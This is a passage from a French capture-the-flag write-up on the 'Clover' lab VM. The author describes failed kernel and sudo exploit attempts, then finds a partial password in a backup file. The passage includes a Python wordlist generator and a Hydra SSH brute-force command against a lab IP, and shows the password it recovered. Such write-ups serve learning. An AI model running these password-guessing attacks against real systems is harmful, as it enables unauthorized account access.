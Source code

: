 Une énumération locale via `LinPEAS` remonte quelques vulnérabilités *classiques* telles `Dirty COW` et `Sudo Baron Samedit`.

Toutefois les exploits `Dirty COW` ne semblent pas aboutir (sans doute le système est patché) et pour la faille `sudo` on est géné par le fait que le binaire `python` utile à l'exploit a été mis en accès pour root uniquement.

Heureusement je disposais d'une autre VM avec le même système (Debian 8, 64bits) et j'ai pu copier `python` mais finalement le système n'était pas non plus vulnérable.

A noter que `gcc` est aussi absent de la VM donc il faut compiler en static pour copier les binaires pour exploiter telle ou telle vulnérabilité (voir plus loin pour `PwnKit`)

## Harry Clover

Mais le CTF a en réalité un cheminement officiel sans exploits qui était un peu difficile à trouver.

Il y a un fichier de backup concernant l'utilisateur `sword` mais le propriétaire du fichier ne correspondait pas à cet utilisateur (donc un `find` spécifique ne le retournait pas) :

```shellsession
asta@Clover:/tmp$ ls /var/backups/reminder/ -al
total 12
drwxr-xr-x 2 root root 4096 Mar 27  2021 .
drwxr-xr-x 3 root root 4096 Feb 14 03:07 ..
-rw-r--r-- 1 root root  144 Mar 27  2021 passwd.sword
asta@Clover:/tmp$ cat /var/backups/reminder/passwd.sword
Oh well, this is a reminder for Sword's password. I just remember this:

passwd sword: P4SsW0rD**** 

I forgot the last four numerical digits!
```

On génère une wordlist correspondant à ces cas :

```python
with open("passwords.txt", "w") as fd:
    for i in range(0, 10000):
        password = f"P4SsW0rD{i:04}"
        print(password, file=fd)
```

Et on lance `Hydra` sur le service SSH :

```bash
hydra -l sword -P /tmp/passwords.txt ssh://192.168.56.99
```

Après 40 minutes on obtient le mot de passe :

```
[22][ssh] host: 192.168.56.99   login: sword   password: P4SsW0rD4286
```

L'utilisateur dispose d'un flag lui aussi :

